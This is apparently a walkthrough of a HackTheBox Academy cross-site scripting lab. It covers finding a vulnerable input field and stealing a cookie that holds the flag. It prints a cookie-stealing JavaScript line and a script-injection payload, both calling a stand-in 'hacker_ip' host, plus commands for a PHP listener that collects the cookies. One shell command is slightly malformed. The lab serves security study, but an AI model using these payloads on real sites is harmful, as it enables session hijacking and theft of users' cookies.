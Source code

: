 We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
 In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

**Questions:**

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.
**Answers:**

First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

[tmpserver](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/tmpserver.png)

[php-code](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/HTB-CROSS_SITE-SCRIPTING-XSS-.png)
Let's start your server

```sudo php -S 0.0.0.0:3333```

Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```

[start server](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-server.png)
[inputs](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/inputs.png)
Great, it works!
Let's check our cookie file.
[cat cookies](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/cookie.png)
Happy Hacking!
[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


